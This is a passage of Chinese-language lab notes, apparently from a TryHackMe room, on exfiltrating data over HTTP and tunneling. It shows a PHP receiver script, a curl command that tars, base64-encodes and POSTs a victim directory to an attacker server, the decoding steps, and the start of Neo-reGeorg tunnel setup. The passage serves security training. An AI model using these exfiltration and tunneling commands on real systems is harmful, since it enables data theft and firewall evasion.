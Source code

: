             PHP
            
            ```
            <?php
            if (isset($_POST['file'])) {
                // 对接收到的数据进行URL解码 (PHP的$_POST通常会自动处理URL解码)
                // 如果数据是Base64编码后又经过了其他处理，这里可能需要额外解码步骤
                $received_data = $_POST['file'];
                // 示例：将+号被空格替换的问题修复 (如果curl发送时未正确URL编码)
                // $received_data = str_replace(' ', '+', $received_data);
                $file = fopen("/tmp/http.bs64","w");
                fwrite($file, $received_data);
                fclose($file);
            }
            ?>
            ```
            
        2. **受害者机器发送数据 (使用 curl)**: 假设数据在 `task6/` 目录。
            
            Bash
            
            ```
            thm@victim1:$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
            ```
            
            - `--data "file=..."`: 发送 POST 请求，`file` 是参数名。参数值是 tar 归档后 Base64 编码的数据。Curl 默认会对数据进行 URL 编码。
        3. **攻击者服务器端处理与解码**: 数据被 PHP 脚本保存到 `/tmp/http.bs64`。
            - **修复潜在的 Base64 损坏 (URL编码问题)**: 如果 `+` 字符在传输中被变为空格。
                
                Bash
                
                ```
                thm@web:$ sudo sed -i 's/ /+/g' /tmp/http.bs64
                ```
                
            - **解码和解压**:
                
                Bash
                
                ```
                thm@web:$ cat /tmp/http.bs64 | base64 -d | tar xvfz - -C /tmp/ # -C 指定解压目录
                ```
                
- **2. HTTPS 通信**:
    - **说明**: 若攻击者的 Web 服务器配置了 SSL/TLS 证书并使用 HTTPS，则整个传输过程（包括数据体）将被加密，进一步增强隐蔽性和安全性。
- **3. HTTP 隧道 (HTTP Tunneling)**:
    - **原理**: 将其他协议的流量（如 SSH、RDP、甚至任意 TCP/UDP 流量）封装在 HTTP 请求和响应中，常用于穿透防火墙或访问隔离的内网环境。
    - **工具示例 (Neo-reGeorg)**:
        
        - **场景**: 攻击者希望通过可从外网访问的 `uploader.thm.com` 服务器（已上传隧道脚本）来访问内网的 `app.thm.com` 服务器。 <!-- end list -->
        
        1. **生成隧道服务端脚本**:
            
            Bash
            
            ```
            root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py generate -k <password_for_tunnel>
            ```
            